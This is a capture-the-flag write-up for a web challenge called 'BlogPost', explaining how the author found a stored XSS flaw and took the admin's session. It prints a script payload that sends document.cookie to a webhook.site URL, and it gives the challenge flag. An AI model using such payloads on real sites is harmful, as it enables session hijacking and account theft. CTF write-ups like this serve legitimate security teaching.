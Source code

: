 # Stack The Flags 2022: BlogPost

![Contest Date: 02.12.2022](https://img.shields.io/badge/Contest%20Date-02.12.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-brightgreen)

## Description

> Jaga created an internal social media platform for the company, can you leak anyone's information?



## Attached Files

- [Source code](https://github.com/seanLimWeiRen/STF22_writeups/tree/main/Web/BlogPost/attached_files)

## Summary

We use XSS to steal the admin's cookies

## Flag

```
STF22{s1mpl3_p0st_xSs_:)}
```

## Detailed Solution

Upon visiting the website and clicking one "Login", we are greeted with a login page which gives us a link to register an account.

![1.png](images/1.png)

After registering an account and logging in with it, we can see that an admin has created a post, providing us with the information that there is an admin account and we might need to gain access to it.

![2.png](images/2.png)

### Finding the vulnerability

I tried to login to the admin account with SQL injection, but it did not work

![3.png](images/3.png)

Read more about SQL injection ![here](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)

Luckily, one of the first things that I thought to test was XSS, so I used `<script>alert('xss')</script>` to test if it was vulnerable.

![4.png](images/4.png)

Indeed, the alert box popped up to show that the blog was vulnerable to XSS

![5.png](images/5.png)

#### How does XSS work? (for beginners)

XSS works by manipulating a website to return possibly malicious javascript code to its users, and it is run on the web browsers of the victim(s).
Using the example from earlier, the `<script>` and `</script>` tags are used to embed a client-side script, while `alert('xss')` simply gives us a popup with the text "xss"

### Exploiting the vulnerability

Remember when I mentioned that we could try to gain access to the admin account? That's exactly what we need to do with XSS.
Because your session data is stored in your cookies, we need to exfiltrate the session cookie.

For this, we can either use ![webhook.site](https://webhook.site) or ![PostBin](https://www.toptal.com/developers/postbin/), both work perfectly fine but I prefer to use webhook.site

With the information I had, I created this payload:
```
<script>javascript:document.location='https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4?cookie='+document.cookie;</script>
```
Don't worry if you don't know what this means, I'll break it down.

#### How does this work?

When a user views the blog, they will be forcefully redirected to `https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4`, with their session cookie being sent along as well. The website then logs it and we can view it.

![6.png](6.png)

Now, when we create the post, 

```
STF22{s1mpl3_p0st_xSs_:)}
```


